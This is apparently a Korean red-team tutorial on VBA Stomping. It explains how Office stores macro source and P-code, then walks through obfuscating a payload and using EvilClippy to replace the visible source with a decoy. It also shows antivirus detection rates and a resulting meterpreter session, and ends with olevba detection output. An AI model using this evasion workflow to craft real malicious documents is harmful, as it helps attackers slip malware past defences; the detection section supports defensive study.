 # VBA Stomping

VBA Stomping 은 2018년도 Derbycon 에서 Harold Ogden (@haroldogden), Kirk Sayre (@bigmacjpg) and Carrie Roberts (@OrOneEqualsOne) 가 Dr. Vesselin Bontchev 박사의 P-code 연구를 보고 영감을 받아 만들어낸 VBA 매크로 방어 우회 기법 중 하나다.&#x20;

VBA 매크로는 총 3가지 형태로 오피스 제품에 저장된다:&#x20;

1. 소스코드 - 실제로 작성된 VBA 매크로의 소스코드가 압축된 형태&#x20;
2. P-code - #1번을 기반으로 컴파일된 어셈블리어와 비슷한 형태 - 캐시된 형태로, 똑같은 오피스 버전에서 열리면 소스코드가 아닌 P-code가 대신 실행된다.&#x20;
3. Execode - P-Code가 여러번 실행될 시 P-code를 tokenize 한 형태로 저장되는 형태 - 이건 일단 무시한다.&#x20;

여기서 재밌는 점은 소스코드를 flexhex 등의 툴을 이용해 다른 VBA 매크로로 변경해도 P-code는 이전 소스코드를 담고 있다는 것이다. 예를 들어,&#x20;

* 소스코드 - 악성 VBA
* P-code - 악성 VBA

의 형태로 저장되어 있는 문서를 flexhex 등의 툴로 열어 소스코드 바이트를 직접 수정해주면&#x20;

* 소스코드 - 평범한 VBA, 혹은 null-byte 형태로 아무것도 없는 VBA
* P-code - 악성 VBA

위 상태가 되며, 이 상태로 문서를 열면 소스코드가 아니라 P-code 가 실행된다. 유의할 점은 만들어진 오피스 버전과 문서가 열리는 오피스 버전이 같아야 P-code 가 실행된다는 것이다. 따라서 공격자의 입장에서는 피해자 호스트에 어떤 오피스 제품이 설치되어 있는지를 알아낸 다음에 사용할 수 있는 기법이다. 이는 이메일 헤더와 유저 에이전트 등으로 정보 수집을 통해 알아낼 수 있다.&#x20;

### 실습&#x20;

[오피스 VBA 매크로 페이지](vba-macros.md)에서 사용했던 코드를 그대로 사용한다. 단, 작전보안을 위해 [VisualBasicObfuscator](https://github.com/mgeeky/VisualBasicObfuscator)를 이용해 코드를 난독화한다. 스키디의 악용을 막기 위해 툴의 라인 647에서 발생하는 에러를 고치는 법은 따로 설명하지 않는다.&#x20;

```
https://github.com/mgeeky/VisualBasicObfuscator.git

# range() 함수와 관련해서 간단한 수정을 하면 제대로 실행된다. 
647# for s in range(len(longLine) / SPLIT + 1):

# 난독화 진행 
┌──(root㉿kali)-[/opt/VisualBasicObfuscator]
└─# python3 obfuscate.py payload.vbs -o payload-obfuscated.vbs

    :: Visual Basic script obfuscator for thy red teaming needs!
    Mariusz Banach / mgeeky, '17, '20; <mb [at] binary-offensive.com>
    v: 0.2

[+] Input file:         payload.vbs
[+] Output file:        payload-obfuscated.vbs
[+] Input file length: 1205
[+] Obfuscated file length: 5742
[+] Obfuscated code has been written to:
                payload-obfuscated.vbs
```

이후 VBA Stomping에 사용될 가짜 VBA 코드를 준비한다. 이제 VBA 소스코드는 가짜 VBA 코드로 덮어씌워지고, P-code에는 위에서 만든 악성 VBA 코드가 제대로 들어가 있을 것이다. 이는 추후 대응방안 섹션에서 확인한다.&#x20;

EvilClippy 툴을 이용해 VBA stomping 과 메타데이터 삭제, 모듈 이름 랜덤화, GUI에서 VBA 감추기 등의 방어 우회 기법을 적용한다.&#x20;

VBA Stomping에 사용될 가짜 VBA 코드는 다음과 같다.&#x20;

```
Sub Document_Open()
    Macro1
End Sub

Sub AutoOpen()
    Macro1
End Sub

Sub Macro1()
'
' Macro1 Macro
'
'
    Range("B1").Select
    ActiveCell.FormulaR1C1 = "Hello World"
    Range("B2").Select
End Sub
```

이제 EvilClippy를 사용해 VBA Stomping을 진행한다.&#x20;

```
 # EvilClippy 설치 - Visual studio -> x64 Native Tools command prompt 
 csc /reference:OpenMcdf.dll,System.IO.Compression.FileSystem.dll /out:EvilClippy.exe *.cs
 
 # EvilClippy 사용 
 .\EvilClippy.exe -s .\fakecode.vba .\sample-payload-obs.doc -g -d -r -u 
```



VBA Stomping 과 난독화를 진행하지 않은 일반 페이로드의 탐지율을 확인해보자.&#x20;

![일반 페이로드 ](<../../.gitbook/assets/image (5) (1) (1) (1).png>)

VBA stomping만 적용한 페이로드의 탐지율을 다음과 같다.&#x20;

![VBA stomping을 적용한 페이로드](<../../.gitbook/assets/image (11) (1) (1) (1).png>)

VBA stomping과 난독화를 둘 다 적용한 페이로드다. 몇몇 AV들은 스캔을 포기한 것을 볼 수 있다.

![VBA stomping과 난독화를 적용한 페이로드 ](<../../.gitbook/assets/image (9) (1).png>)



이후 페이로드를 실행하면 meterpreter가 돌아온다.&#x20;

![](../../.gitbook/assets/vba-stomping-2.gif)

### 분석/대응 방안&#x20;

VBA Stomping 기법과 P-code의 악용 방법은 2018년도에 나왔기 때문에 2022년도 기준으로 많은 툴들이 이를 탐지한다. 예를 들어 [oletools](https://github.com/decalage2/oletools/wiki/olevba) 툴을 이용해 VBA Stomping 기법을 적용한 파일을 분석해보자.&#x20;

olevba 를 통해 분석해보면 다음과 같은 VBA 매크로와 P-code가 나온다.&#x20;

![](<../../.gitbook/assets/image (10) (1) (2).png>)

VBA 매크로인 `Macros/VBA/ThisDocument` 과 `Macros/VBA/NewMacros` 에서는 수상한 VBA 매크로가 발견되지 않는다. EvilClippy가 위에서 가짜 VBA 매크로로 VBA Stomping을 진행했기 때문이다.&#x20;

하지만 P-code 섹션을 보면 원래 있었던 VBA 페이로드가 보인다. 난독화를 진행했기 때문에 `Create, ShowWindow, Xor, Base64 Strings, VBA Stomping` 등의 수상한 키워드들이 보인다.&#x20;

`ThisDocument` 와 `NewMacros` 의 코드는 다음과 같이 나온다.&#x20;

```
┌──(root㉿kali)-[~/blog]                                                                              
└─# olevba -a sample-payload_EvilClippy.doc -c                                 
olevba 0.60.1 on Python 3.10.4 - http://decalage.info/python/oletools                                 
===============================================================================
FILE: sample-payload_EvilClippy.doc                                                                   
Type: OLE                                                                                             
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls                                                                            
in file: sample-payload_EvilClippy.doc - OLE stream: 'Macros/VBA/ThisDocument' 
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -  
Sub Document_Open()                                                                                   
    Macro1                                                                                            
End Sub                                                                                               
                                                                                                      
Sub AutoOpen()                                                                                                                                                                                               
    Macro1                                                                                            
End Sub                                                                                               
                                                   
Sub Macro1()                                                                                          
'                                                                                                     
' Macro1 Macro                                                                                        
'                                                                                                     
'                                                                                                     
    Range("B1").Select                                                                                
    ActiveCell.FormulaR1C1 = "Hello World"                                                            
    Range("B2").Select                                                                                
End Sub                              
```

그 이후 P-code를 살펴보면 다음과 같은 코드가 나온다. 난독화된 VBA 코드가 또 다시 P-code 형태로 변했기 때문에 읽기 힘들지만, 적어도 악성 행위를 하는 VBA를 살펴볼 수는 있다.&#x20;

```
VBA MACRO VBA_P-code.txt                                                                                                                                                                                     
in file: VBA P-code - OLE stream: 'VBA P-code'                                                        
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -                         
' Processing file: sample-payload_EvilClippy.doc                                                      
' ===============================================================================                                                                                                                            
' Module streams:
' Macros/VBA/ThisDocument - 922 bytes
' Macros/VBA/NewMacros - 9204 bytes
' Line #0:
'       FuncDefn (Sub Document_Open())
' Line #1:
'       ArgsCall test 0x0000 
' Line #2:
'       EndSub 
' Line #3:
'       FuncDefn (Sub AutoOpen())
' Line #4:
'       ArgsCall test 0x0000 
' Line #5:
'       EndSub 

< ... >
                                                                                                                                                                                            
' Line #142:                                                                                                                                                                                                 
'       Ld EqKwFzDJ                                                                                                                                                                                          
'       Ld EqKwFzDJ 
'       FnLen 
'       Ld Ivtp83Fcz 
'       Sub 
'       ArgsLd Left$ 0x0002 
'       St EqKwFzDJ 
' Line #143:
'       EndIfBlock 
' Line #144:
'       Ld EqKwFzDJ 
'       St O9sTsRbm 
' Line #145:
'       EndFunc 
' Line #146:

```



### 레퍼런스&#x20;

{% embed url="https://github.com/bontchev/pcodedmp" %}

{% embed url="https://vbastomp.com/" %}

{% embed url="https://medium.com/walmartglobaltech/vba-stomping-advanced-maldoc-techniques-612c484ab278" %}

{% embed url="https://outflank.nl/blog/2019/05/05/evil-clippy-ms-office-maldoc-assistant/" %}

{% embed url="https://github.com/sevagas/macro_pack" %}

{% embed url="https://github.com/outflanknl/EvilClippy" %}
